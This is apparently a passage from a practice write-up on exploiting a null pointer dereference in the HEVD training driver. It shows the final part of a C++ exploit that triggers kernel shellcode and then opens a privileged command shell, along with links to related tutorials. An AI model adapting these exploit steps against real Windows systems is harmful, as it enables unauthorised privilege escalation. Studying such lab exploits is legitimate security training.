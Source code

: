 ```cpp

  if (init() == FALSE)
  {
    printf("[+]Failed to get HANDLE!!!\n");
    system("pause");
    return 0;
  }

  Trigger_shellcode();
  //__debugbreak();

  printf("[+]Start to Create cmd...\n");
  //CreateCmd();
  system("cmd");

  return 0;
}
```

![Proof](/assets/post_images/12.png)


[site](https://rootkits.xyz/blog/2018/01/kernel-null-pointer-dereference/)

[site 2](https://h0mbre.github.io/HEVD_NULLPointerDereference_32bit/#)
